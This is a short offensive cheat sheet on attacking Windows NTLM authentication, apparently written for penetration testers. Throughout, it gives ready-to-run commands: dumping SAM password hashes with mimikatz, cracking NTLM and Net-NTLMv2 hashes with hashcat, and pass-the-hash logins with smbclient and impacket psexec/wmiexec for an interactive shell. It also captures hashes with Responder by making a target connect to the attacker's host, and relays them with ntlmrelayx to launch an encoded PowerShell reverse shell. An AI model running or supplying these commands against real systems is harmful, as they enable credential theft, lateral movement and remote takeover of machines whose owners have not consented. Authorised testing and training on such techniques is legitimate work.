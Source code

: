 ### Cracking NTLM
Windows stores hashed user passwords in the Security Account Manager (SAM) database file, which is used to authenticate local or remote users.

Extracting with mimikatz (needs to be local administrator)
```
privilege::debug
token::elevate
lsadump::sam
```

Cracking with hashcat:
```
hashcat -m 1000 file.hash /path/to/wordlist -r /path/to/rule --force
```

### Passing NTLM (Pass the Hash)

With smbclient so we can access some shares:
```
smbclient \\\\$rhosts\\share -U username --pw-nt-hash ntlm_hash
```

With impacket-psexec or wmiexec. At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell:
```
impacket-psexec -hashes 00000000000000000000000000000000:ntlm_hash username@$rhosts
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:ntlm_hash username@$rhosts
```

### Cracking Net-NTLMv2
If we’ve obtained code execution on a remote system, we can easily force it to authenticate with us by commanding it to connect to our prepared SMB server.

Setting up Responder on local machine:
```
sudo responder -I tun0
```

Send a dir/ls command to your ip address so Responder can get the Net-NTLMv2 hash:
```
dir \\$lhost\something
```

Cracking it with hashcat:
```
hashcat -m 5600 file.hash /path/to/wordlist --force
```

### Relaying Net-NTLMv2

In kali machine, let's set the ntlmrelayx from impacket:
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t server_need_access -c "powershell -enc base64(reverse_shell)"
```
